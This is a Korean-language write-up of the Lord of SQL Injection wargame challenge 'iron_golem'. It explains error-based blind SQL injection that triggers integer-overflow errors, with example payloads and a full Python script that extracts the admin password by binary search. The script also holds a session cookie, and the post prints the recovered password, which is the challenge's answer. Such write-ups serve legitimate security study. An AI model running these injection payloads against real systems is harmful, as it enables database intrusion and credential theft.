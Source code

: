 ```yaml
---
title: LOS - 21번 iron_golem
category: Lord of SQL Injection
---
```


# [21] iron_golem

## 문제
<img src="https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2FcPwCAb%2FbtrnN2IAMBF%2FDQ6Tb1nf7xL43zwK3VJjqk%2Fimg.png">

## 풀이

우와... 역대급 헤맨 문제다.

 

solve 조건은 admin 계정의 pw를 알아내는 것이다.

 

preg_match를 살펴보면 sleep과 benchmark를 필터링하고 있다.

두 함수 모두 Time Based Blind SQLi에 쓰이는 함수이다.

.과 _등을 함께 필터링하므로 헤비쿼리도 사용이 불가능하다.

Timed Based로 접근하기 위한 방법이 모두 막혔으므로, 다른 방식으로 푸는 문제임을 유추할 수 있다.

* 헤비쿼리 : information_schema.columns 등을 여러개 join시켜 내부 데이터를 왕창 읽어들임으로써 시간을 지연시키는 방법이다.

 

또한 지금까지의 문제들처럼 쿼리의 실행 결과를 보여주는 대신, 에러 발생 시 에러 메시지를 보여주고 있다.

* Hello {$result[id]} → mysqli_error($db)

 

이러한 점들로 미루어 보아, Error Based로 접근해야하는 문제임을 알 수 있다.

Time Based나 Error Based에 대해 제대로 공부해본 적이 없었기 때문에 여기까지 결론을 내리는데 많은 시간이 소요되었다...

 

고의적으로 에러를 발생시키는 방법에는 여러가지가 있다.

* 이 때, 발생시켜야하는 에러는 Syntax Error가 아닌 Runtime Error이다.

 

그 중 개인적으로 가장 간단하다고 생각한 방법인 큰 수 연산을 통해 문제를 해결해보았다.

말 그대로, Integer 범위를 초과하는 과도한 연산을 요청함으로써 에러를 발생시키는 방법이다.

 

먼저, 과도하게 큰 수의 연산을 요청했을 시의 에러 메시지의 내용을 확인해본다.

 

다음은 pw의 페이로드로 ' or 0xFFFFFFFFFFFFFF*0xFFFFFFFFFFFFFF 를 주었을 시의 에러 메시지의 내용이다.

<img src="https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2FcV5YE2%2FbtrnHQ9Yybo%2FRNhtCVTKtlnkiJ43qeGg8k%2Fimg.png">

위 에러 메시지 내용의 일부를 키워드로 활용하여 자동화 코드를 짜면 된다.

나는 out of range를 선택했다.

⇒ res.text에 out of range가 포함되어있을 시 에러가 발생한 것으로 판별한다.

 

pw의 길이를 찾았을 시 에러를 발생시키기 위한 페이로드의 예시는 다음과 같다.

```python
param=f"?pw=' or id='admin' and if(length(pw)={num}, 0xFFFFFFFFFFFFFF*0xFFFFFFFFFFFFFF, 1) %23"
```

이후 완전한 pw를 찾는 방법도 동일한 로직을 사용한다.

특정 인덱스의 아스키를 찾았을 시 에러를 발생시켜주면 된다.

 

또한 이번 문제에서도 검색 속도를 높이기 위해 2진 탐색을 적용해준다.

LoS 21번 Python 자동화 코드이다.

```python
import requests

def send(param):
    url = "https://los.rubiya.kr/chall/iron_golem_beb244fe41dd33998ef7bb4211c56c75.php"
    cookie = "dfksep8hnmequ6sm0qe1iu65pa"
    head = {"PHPSESSID":f"{cookie}"}
    my_url = url+param
    res = requests.get(my_url, cookies=head)
    return res.text

print("💘 LoS 21을 시작합니다")

for num in range(0,100):
    param=f"?pw=' or id='admin' and if(length(pw)={num}, 0xFFFFFFFFFFFFFF*0xFFFFFFFFFFFFFF, 1) %23"
    if("out of range" in send(param)):
        print(f"👏 pw의 길이는 {num}입니다!")
        break

ans=""

for len in range(1, num+1):
    start = 32
    end = 127
    while True:
        middle = round((start+end)/2)
        param=f"?pw=' or id=\"admin\" and if(ascii(substr(pw,{len},1))>={middle}, 0xFFFFFFFFFFFFFF*0xFFFFFFFFFFFFFF, 1) %23"
        if("out of range" in send(param)):
            param=f"?pw=' or id=\"admin\" and if(ascii(substr(pw,{len},1))={middle}, 0xFFFFFFFFFFFFFF*0xFFFFFFFFFFFFFF, 1) %23"
            if("out of range" in send(param)):
                print(f"{len}번째 문자 → {chr(middle)}")
                ans+=chr(middle)
                break
            else:
                start = middle
                continue
        else:
            end = middle
            continue

print(f"👏 pw의 정체는 [{ans}]입니다!")
```

<img src="https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2FlzbFA%2FbtrnR3lVWQ4%2FOP9KfPRWEIVTnk5vlbLbG1%2Fimg.png">

Blind 공격 결과, pw는 `06b5a6c16e8830475f983cc3a825ee9a` 임을 확인할 수 있다.


## 결과
<img src="https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2FbvUIOy%2FbtrnHSz1mvI%2FmWvA84g3zRa4OBEfXhTkj1%2Fimg.png">